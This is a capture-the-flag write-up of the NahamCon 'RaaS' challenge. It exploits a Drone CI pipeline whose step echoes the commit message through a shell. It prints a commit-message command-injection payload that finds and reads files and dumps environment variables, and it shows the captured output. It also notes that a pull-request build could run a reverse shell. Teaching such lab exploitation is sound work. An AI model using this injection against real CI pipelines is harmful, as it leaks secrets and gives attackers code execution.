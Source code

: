 # RaaS

> Someone leaked their git credentials (developer:2!W4S5J$6e). Can you get in?
> 
> This challenge uses vhosts.
> Visit git.challenge.nahamcon.com:[YOUR_PORT]
> Visit drone.challenge.nahamcon.com:[YOUR_PORT]

Start by logging in to the Git repo. Observe the Drone CI/CD pipeline definition file `.drone.yml`:
```
---
kind: pipeline
type: exec
name: test pipeline pr-open

platform:
  os: linux
  arch: amd64

steps:
  - name: pr-open
    commands:
      - sh -c "echo $DRONE_COMMIT_MESSAGE"
trigger:
  event:
    - pull_request
  action:
    - opened
---
kind: signature
hmac: 5421480c92c78bbffdb54a029c854d87630e818631db1f8d32b388e50731dfce

...
```
The fact that the pipeline definition has a hash means we can't modify it. The Git repo also has branch protection turned on -- any PRs need to be approved by a second person. Good security controls, but...

It doesn't matter as the command step includes a command injection vulnerability. And, as we will see, simply submitting a PR that is pending approval will trigger a pipeline build. Even without the cmd exec vuln, in the real world if PR request would trigger a build we could just add some bad code to do a reverse shell, etc.

1. Fork the repo to our own, make a minor change, commit.
2. Submit PR, poison the request with below message: `message; find / -name flag.txt -exec cat {} + && env && ls -alh / && ls -alh $HOME`. Hopefully we can find the flag rightaway, but if not we have env vars and more info for follow-up attempts.
3. Switch to the Drone CI system, check build status, view logs.

Success:
```
+ sh -c "echo $DRONE_COMMIT_MESSAGE"

x3

flag{ede21e1d34dc5d783d93677c7fc254e2}

DRONE_BRANCH=master

DRONE_COMMIT_AUTHOR_AVATAR=http://git.challenge.nahamcon.com:32735/avatars/6199b84099dff1729dbc0b49895adb6c

DRONE_SYSTEM_HOST=drone.challenge.nahamcon.com:32735

GIT_COMMITTER_NAME=drone

DRONE_GIT_SSH_URL=git@localhost:JustHacking/RaaS.git

CI_BUILD_TARGET=

GIT_AUTHOR_EMAIL=developer@noreply.localhost
<SNIP>
```

Fun challenge, again thanks congon4tor
